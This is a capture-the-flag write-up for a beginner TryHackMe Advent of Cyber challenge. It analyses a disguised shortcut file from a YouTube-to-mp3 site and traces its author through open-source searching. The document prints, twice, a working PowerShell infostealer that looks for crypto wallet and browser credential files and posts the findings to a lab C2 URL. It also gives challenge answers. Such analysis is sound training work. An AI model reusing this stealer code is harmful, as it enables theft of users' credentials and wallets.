


# Advent of Cyber 2024 Day 1


## Challenge info:


This is the day 1 challenge for the advent of a cyber event that was held this past holiday season that I missed. These challenges are easy and digestible targeted towards beginners. I am mainly walking through them for some quick learning and brushing up on some skills, as well I want to find the keycards for the harder side quest challenges. This challenge focuses on a OPSEC challenge that is focused on a youtube to mp3 style site.


## Walkthrough steps:


The first thing I did on this site was try to upload a random youtube video to the site and download it as a `mp3`.


Next we can download the file. This results in a zip folder so let's check it out...


After extracting the contents we are greeted to 2 files `song.mp3` and `somg.mp3`, but weirdly one of them is executable...





When we inspect the file types we can find something concerning...


`somg.mp3` is a windows shortcut linker script. Lets check it out with `exiftool`.





At the bottom of the output we can see a powershell command.


Lets checkout that github file download. By following the link we can find the following code.


```
function Print-AsciiArt {
   Write-Host "  ____     _       ___  _____    ___    _   _ "
   Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |" 
   Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
   Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
   Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"


   Write-Host "         Created by the one and only M.M."
}


# Call the function to print the ASCII art
Print-AsciiArt


# Path for the info file
$infoFilePath = "stolen_info.txt"


# Function to search for wallet files
function Search-ForWallets {
   $walletPaths = @(
       "$env:USERPROFILE\.bitcoin\wallet.dat",
       "$env:USERPROFILE\.ethereum\keystore\*",
       "$env:USERPROFILE\.monero\wallet",
       "$env:USERPROFILE\.dogecoin\wallet.dat"
   )
   Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
   foreach ($path in $walletPaths) {
       if (Test-Path $path) {
           Add-Content -Path $infoFilePath -Value "Found wallet: $path"
       }
   }
}


# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
   $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
   $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"


   Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
   if (Test-Path $chromePath) {
       Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
   }
   if (Test-Path $firefoxPath) {
       Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
   }
}


# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
   $c2Url = "http://papash3ll.thm/data"
   $data = Get-Content -Path $infoFilePath -Raw


   # Using Invoke-WebRequest to send data to the C2 server
   Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}


# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server


```


This looks to be some kind of infostealer and at the top we can see a pretty unique str "Created by the one and only M.M.". We can search for this string on github to see if we get any hits. This would be bad for the malicious actor who wrote this script.


We can see a few different results (I assume some are writeups or reposts as this challenge is old now.) The one that we want is at the bottom of the page so let's check it out.


If we scroll down further we can see the same script that we downloaded.


If we navigate to this user's github we can find the following.


We should now have enough info to answer the following questions.


## Questions and Flags:


* Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?


   * 


* The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?


   * We can find this in the stealer script.
   ```
       # Function to send the stolen info to a C2 server
       function Send-InfoToC2Server {
           $c2Url = "http://papash3ll.thm/data"
           $data = Get-Content -Path $infoFilePath -Raw


           # Using Invoke-WebRequest to send data to the C2 server
           Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
       }
   ```
   * "http://papash3ll.thm/data"


* Who is M.M? Maybe his Github profile page would provide clues?
   * We can gain this information from that github profile we found while doing some basic opsec.
   


* What is the number of commits on the GitHub repo where the issue was raised?


   * We can find this by going back to the issue where `mayor malware` commented and then clicking the repo. Then we can view the commits of the repo.


   


* What's with all these GitHub repos? Could they hide something else?


   * This hint at the bottom caught my eye as I am hunting for the keys to do the harder side quest challenges but I will save the keycard hunting for the side quest writeups.


